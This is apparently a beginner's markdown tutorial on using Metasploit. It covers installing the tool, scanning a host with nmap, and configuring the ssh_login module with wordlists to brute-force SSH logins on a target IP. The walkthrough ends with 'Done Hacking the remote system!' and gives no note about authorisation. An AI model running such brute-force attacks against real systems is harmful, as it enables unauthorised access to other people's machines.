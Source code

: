 <h1 style="text-align: center;">Offensive Strategies</h1>
## Metasploit
Let's install on my device! I use 󰣇 Arch btw
```bash
yay -Sy metasploit
```
Type `msfconsole` to open metasploit!
You might find something simmilar to shown below.
![[Pasted image 20240622100736.png]]
Type `exit` to exit.
Now, you've learnt how to open and close the tool. So, let's deep dive into it.
Inside your terminal, type the below command with the target's ip...
```bash
nmap  127.0.0.1
```
what do you see?
Anything simmilar ?
![[Pasted image 20240622101458.png]]
We can see ssh port 22 open. Booyah! 
Well see how to utilize the port to break into the system. We'll apply brute force attack to get a control over the target system. Let's proceed!
type `search ssh_login` to see possible methods of exploit...
![[Pasted image 20240622102045.png]]
Now, copy the desired one and `use` that:
![[Pasted image 20240622102337.png]]
The `use` command is for utilizing a feature available on your metasploit tool.
Now, Type:
```bash
show options
```
You will see the following results:
![[Pasted image 20240622102526.png]]
Now, use the `set` command to set your preferences. I'll set mine. You can follow that or If you have specific needs, you'll proceed with yours.
- set the host IP
```bash
set RHOSTS 192.168.0.100 
```
- set verbose mode on
```bash
set VERBOSE true
```
- stop on success
```bash
set STOP_ON_SUCCESS true
```
- Now, here comes the most important part. Setting the wordlist file.
```bash
set USER_FILE ~/<path>/<to>/<yourfile>/dict.txt
set PASS_FILE ~/<path>/<to>/<yourfile>/pass.txt
```
see....
![[Pasted image 20240622103729.png]]
You've finished setting your system to perform next brute force attack. 
Type `exploit` to launch the attack!
![[Screenshot_20240622_103902.png]]
Done Hacking the remote system!
you can Explore the system by basic Linux commands! go Ahead...
Let's examine the target!
![[Pasted image 20240622104140.png]]
_Congratulations_, You've finished Hacking the device!
A demo video on the whole process..
![[2024-06-22 11-10-39.mp4]]
<h4 style="text-align: center;">Thank you </h4>